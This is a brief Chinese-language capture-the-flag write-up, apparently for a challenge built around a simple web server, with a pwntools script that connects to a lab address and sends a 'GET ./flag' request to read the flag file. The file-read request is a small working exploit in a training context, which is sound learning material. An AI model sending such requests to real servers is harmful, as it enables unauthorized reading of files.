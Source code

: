 这题主要是读懂就行了。

简略的一个网页服务器程序，只要读取到flag文件就行了。

```python
from pwn import *

context(arch="amd64", os="linux", log_level="debug")

io = remote("172.21.4.12", 10104)

io.sendline("GET ./flag \n")
print(io.recvall())

```

